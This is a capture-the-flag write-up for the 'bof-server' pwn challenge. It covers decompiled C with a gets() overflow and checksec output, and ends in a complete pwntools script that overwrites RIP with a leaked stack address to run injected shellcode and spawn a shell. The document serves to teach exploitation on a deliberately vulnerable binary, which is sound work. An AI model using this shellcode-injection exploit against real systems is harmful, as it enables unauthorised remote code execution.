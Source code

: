 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-100h]

  printf("Hello! Here is the stack address: %llx, enter your name please: ", &v4, envp);
  fflush(_bss_start);
  gets(&v4);
  printf("Nice to meet you, %s!\n", &v4);
  return 0;
}
```

This binary use `gets()`, we can catch `RIP`.

And, problem gives me `stack address`.

Finally, `NX bit` is disabled.

```bash
juntae@ubuntu:~/ctf/timisoara/pwn/bof-server$ checksec bof-server
[*] '/home/juntae/ctf/timisoara/pwn/bof-server/bof-server'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

This is mitigation of problem.

### Exploit

As explained earlier, I can use shellcode.

So, I build shellcode in stack and make `RIP` stack address.

```python
from pwn import *

context.arch = "amd64"
#context.log_level = "debug"

#r = remote("89.38.208.144",11112)
r = process("./bof-server")
e = ELF("./bof-server")
libc = e.libc

r.recvuntil(": ")
stack = int(r.recv(12),16)
log.info("stack : " + hex(stack))

shellcode = shellcraft.sh()

payload = asm(shellcode) 
payload = payload.ljust(0x108,"\x00")
payload += p64(stack)
r.sendlineafter("please: ",payload)

r.interactive()
```
